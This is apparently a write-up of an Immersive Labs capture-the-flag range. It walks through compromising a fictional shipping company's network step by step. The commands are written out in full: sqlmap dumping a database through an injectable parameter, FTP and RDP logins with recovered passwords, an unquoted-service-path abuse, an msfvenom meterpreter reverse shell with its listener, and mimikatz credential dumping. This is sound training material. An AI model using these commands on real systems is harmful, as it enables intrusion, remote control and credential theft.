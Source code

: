```yaml
---
date: 2025-01-04
categories: [CTF, ImmersiveLabs]
title: "IML - Offensive Cyber Range: Artica Shipping Company"
tags: ['ftp', 'nmap', 'privilege escalation', 'python', 'rce', 'sqli', 'windows']

description: "Offensive Cyber Range Artica Shipping Company - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# IML - Offensive Cyber Range: Artica Shipping Company


![image1](../resources/1e3b840d470c411aaf26f2852d9d848d.png)

1.) Enum Host 1

![image2](../resources/6099619d24ba47bfa5eb358c5ffdf784.png)

2.) What type of server does Unknown Host 1 appear to be?
FTP server

3\. ) What version of Apache is Artica's intranet using?
nmap \<Host 4\> -p 80 -A

Version: 2.4.41

4.) Identify vulnerabilities in services or servers:
Go to \<host 4\> port 80

The to= parameter is injectable (test with a simple quote ' )

5.) What type of attack is the Artica intranet vulnerable to?
SQLi

6.) What is the username of the FTP account that can be found in the intranet database?

1.  Open burp and catch the request

![image3](../resources/eeff52988b1f4ac790dc6933ed1832d6.png)

2.  Save the request text to a file, call it 'burpfile':

3.  Run:
```bash
sqlmap -r burpfile --batch --dump-all --exclude-sysdb
```
- We get creds:

![image4](../resources/e150f496b8e64f52b717958b66bb2e3b.png)

\| 1 \| WoWmAgE60 \| b.mocarthy \|

\| 2 \| 0912jgf93FSnjf \| artica-ftp-acc

FTP account: **artica-ftp-acc**

7.) Which of the following directories exists on the FTP server?
Tools


![image5](../resources/26a3e175e9484e5381b1ead7831d3b4c.png)

8.) Which port is NOT open on Unknown Host 2?
21

9.) What is the name of the domain Unknown Host 2 is connected to?
NMAP

artica.office

10.) What is the NetBIOS computer name of Unknown Host 1?
From the NMAP

ARTICA-WIN-FTP

11.) What type of attack is the fax server vulnerable to?

Log into ftp server with creds from sql dump

```bash
ftp 10.102.18.198
cd System Administration
binary #Change to binary mode
get fax-server-info.pdf

```
Read it and we get creds:

**DNS: artica-fax-server**
**User: artica\fax_acc**
**Pw: 03mglosmf!!**

Unknown Host 2 is the fax server

- Connect with xfreerdp:
  
```bash
xfreerdp /v:10.102.17.110 /u:artica\fax_acc /p:'03mglosmf!!' /cert:ignore /dynamic-resolution

```
wmic service get name,displayname,startmode,pathname \| findstr /i /v "C:\Windows\\" \|findstr /i /v """


![image6](../resources/5206b6f5fe5b455d8644e631bce83938.png)

C:\Program Files\Artica Applications\Logging Service\log-srv.exe

```bash
icacls "C:\Program Files\Artica Applications"

```

![image7](../resources/00c478fb05904a58b3780b43a369e1f0.png)

**Unquoted service path**

12.) Exploit the vulnerabilities to obtain the tokens.

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.102.52.111 LPORT=9000 -f exe -o Logging.exe

python -m http.server 8080

```
Download rev shell
```bash
msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set lhost 10.102.52.111; set lport 9000; exploit"
```

Put in C:\Program Files\Artica Applications

```bash
sc qc "Artica Logging Service"

```

![image8](../resources/2a8b376edfa245f8b714507e30f2aeec.png)


![image9](../resources/d4950d26564f42e78ede32462244301c.png)

```bash
sc start "Artica Logging Service"

```

![image10](../resources/4f693e9e88604e3082a64c5d48d952bc.png)


![image11](../resources/3f5fe6eae22a4e3c94ef6bd423313026.png)

ps

migrate to winlogon.exe

```bash
load kiwi

kiwi_cmd "token::elevate /domainadmin"

```

![image12](../resources/e823fa026d6c4d6e935a82584e83e2ae.png)

```bash
creds_all
```

![image13](../resources/926d2092181247c791d7ff27d6e37d63.png)

**emma.thompson : iLOVEbears1204**

13.) What is the token found within the file located on the Administrator's desktop on the domain controller?

On the existing RDP session - Open Remote Desktop and use the creds for Emma


![image14](../resources/0901a51145da4a09bc83fe15414b4748.png)
